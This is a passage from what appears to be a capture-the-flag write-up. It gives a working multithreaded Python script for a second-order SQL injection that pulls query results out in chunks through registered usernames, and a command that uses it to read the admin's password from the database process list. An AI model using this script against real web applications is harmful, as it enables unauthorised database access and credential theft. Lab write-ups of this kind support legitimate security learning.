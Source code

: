 ```python
    s.post(url_base + "register.php", data={"username": sqli_payload, "password": "jxf", "submit": "Submit Query"})
    s.post(url_base + "login.php", data={"username": sqli_payload, "password": "jxf", "login": "Submit Query"})
    sessions[i] = s
    return


def fetch_query_result(i):
    r = sessions[i].get(url_base)
    soup = BeautifulSoup(r.text, "html.parser")
    tables = soup.find_all("table", class_="u-full-width")
    output = tables[1].find("td").get_text()
    results[i] = output
    return


threads = []
for i in range(15):
    sqli_payload = f'" UNION SELECT 1, SUBSTR(({payload}), {i * 16 + 1}, 16);#'
    thread = threading.Thread(target=create_and_login, args=(i, sqli_payload))
    threads.append(thread)
    thread.start()

for thread in threads:
    thread.join()

while True:
    threads = [threading.Thread(target=fetch_query_result, args=(i,)) for i in range(15)]
    for thread in threads:
        thread.start()
    for thread in threads:
        thread.join()

    # check that we are not missing any part of the result
    if all([len(results[i]) <= len(results[i - 1]) for i in range(1, 15)]):
        result = "".join([results[i] for i in range(0, 15)])
        if len(result) > 16:
            print(result)
            sys.exit(0)
            
    time.sleep(1)
```

We need to catch the query when the admin logs in which is every minute, it might require to run the script multiple times in order to get the correct query.

Using the script made by `jaxafed`, we find the query revealing the password.

```
python3 admin_sqli.py 'http://IP_ADDRESS/' 'SELECT INFO_BINARY FROM information_schema.PROCESSLIST WHERE INFO_BINARY NOT LIKE "%INFO_BINARY%" LIMIT 1'
```
